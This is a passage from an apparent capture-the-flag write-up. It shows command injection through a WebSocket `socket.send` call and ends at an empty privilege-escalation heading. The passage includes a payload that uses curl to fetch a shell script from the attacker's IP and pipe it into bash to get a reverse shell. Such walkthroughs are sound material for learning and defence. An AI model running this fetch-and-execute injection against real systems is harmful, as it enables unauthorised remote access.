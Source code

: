 That's all we can find for the id fuzzing part, if we remember the script opens a `websocket`, we can manipulate this WebSocket to execute commands using:

```
socket.send
```

This works with `"$()"`, thanks to command injection, if we send:

```
socket.send("$(ls)")
```

We can see a `bin` on top, which goes away pretty quickly, this means that command injection is possible, so, getting a shell is possible too, in order to get a shell, we can use `busybox` or create a `index.html` file with these contents:



Now, we need to host it using a python server and use curl to get the file, once the file downloads, we need to use bash to execute it, we can do all this with the following command:

```
socket.send("$(curl http://10.14.21.28/shell|bash)")
```

>Note: Make sure to use only ports `80` and `443` because the server is only able to reach them on those ports:





# PRIVILEGE ESCALATION
---


